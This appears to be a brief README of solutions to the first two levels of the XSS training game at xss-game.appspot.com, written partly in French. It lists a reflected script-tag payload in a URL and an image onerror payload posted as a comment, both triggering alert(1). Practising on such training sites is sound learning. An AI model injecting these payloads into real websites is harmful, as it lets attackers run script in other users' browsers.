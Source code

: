 # attaquesXSS

level 1 : 
https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>

level 2 :
écrire : <img src=1 onerror=alert(1)>
dans le commentaire du message
